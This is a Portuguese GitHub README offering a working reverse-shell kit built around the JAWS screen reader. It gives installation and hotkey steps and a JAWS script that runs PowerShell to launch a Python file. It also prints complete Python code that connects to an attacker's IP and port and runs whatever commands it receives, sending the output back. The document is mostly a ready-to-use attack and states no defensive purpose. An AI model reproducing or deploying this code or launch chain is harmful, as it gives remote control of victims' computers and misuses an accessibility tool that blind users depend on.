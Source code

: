 # Script de shell reverso para JAWS

Este repositório contém scripts para automatizar tarefas no JAWS (Job Access With Speech) usando uma combinação de scripts JAWS e scripts Python. O principal exemplo fornecido é uma configuração de shell reverso que utiliza o JAWS para iniciar o shell e o Python para estabelecer a conexão reversa.

## Estrutura do Repositório

- `NCPythonCall.jss`: Script JAWS para iniciar o processo de shell reverso.
- `ncat.py`: Script Python para estabelecer a conexão de shell reverso.

## Pré-requisitos

1. **JAWS Screen Reader**: Certifique-se de que o JAWS está instalado na sua máquina.
2. **Python**: Certifique-se de que o Python está instalado e acessível no PATH do sistema.
3. **Conhecimento em Scripting JAWS**: Entendimento básico de scripts JAWS.

## Instalação

### Importando e Usando o Script JAWS

1. **Baixe o Repositório**:
   - Clone ou baixe o repositório a partir do [GitHub](https://github.com/MatheusExner/JAWS_scripts).

2. **Abra o Gerenciador de Scripts JAWS**:
   - Pressione `Insert + 0` para abrir o Gerenciador de Scripts JAWS.

3. **Importe o Script**:
   - No Gerenciador de Scripts, vá em `Arquivo > Abrir` e navegue até o arquivo `NCPythonCall.jss` baixado.
   - Abra o arquivo para visualizar o script.

4. **Compile o Script**:
   - Pressione `Ctrl + Shift + D` para compilar o script.
   - Salve o script compilado com um nome significativo, por exemplo, `NCPythonCall.jsb`.

5. **Atribua um Atalho de Teclado**:
   - Para atribuir um atalho de teclado para executar seu script JAWS, vá em `Script > Modificar Atribuição de Tecla`.
   - Selecione o script `NCPythonCall`, pressione `Ctrl + Shift + K` e atribua um atalho de teclado (por exemplo, `Insert + Q`).

6. **Execute o Script**:
   - Pressione o atalho de teclado atribuído (`Insert + Q`) para executar o script.

### Configurando e Executando o Script Python

1. **Certifique-se de que o Python está Instalado**:
   - Baixe e instale o Python a partir do [site oficial](https://www.python.org/).

2. **Execute o Script Python**:
   - O script JAWS executará automaticamente o script Python se todos os caminhos estiverem corretamente configurados.

3. **Execução Manual (Opcional)**:
   - Para executar manualmente o script Python, abra o Prompt de Comando ou o PowerShell.
   - Navegue até o diretório que contém `ncat.py`.
   - Execute o script usando:
     ```sh
     python ncat.py
     ```

## Script JAWS: `NCPythonCall`

O script JAWS automatiza o processo de verificação dos componentes necessários e execução do script de shell reverso.

```jaws
Script NCPythonCall ()
Say ("Iniciando processo de shell reverso", OT_MESSAGE)

If FileExists ("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe")
    Say ("powershell existe", OT_MESSAGE)
Else
    Say ("powershell não existe", OT_MESSAGE)
EndIf

If FileExists ("C:\\Users\\Matheus\\Desktop\\ncat.py")
    Say ("script encontrado", OT_MESSAGE)
Else
    Say ("script não encontrado", OT_MESSAGE)
EndIf

Run ("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe python C:\\Users\\Matheus\\Desktop\\ncat.py")
EndScript
```

## Script JAWS: `NCPythonCall`
O script Python estabelece uma conexão de shell reverso com a máquina especificada do atacante.
```python
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.114", 7890))

while True:
    command = s.recv(1024).decode("utf-8")
    if command.lower() == "exit":
        break
    if command:
        output = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout, stderr = output.communicate()
        response = stdout + stderr
        s.send(response)

s.close()
```
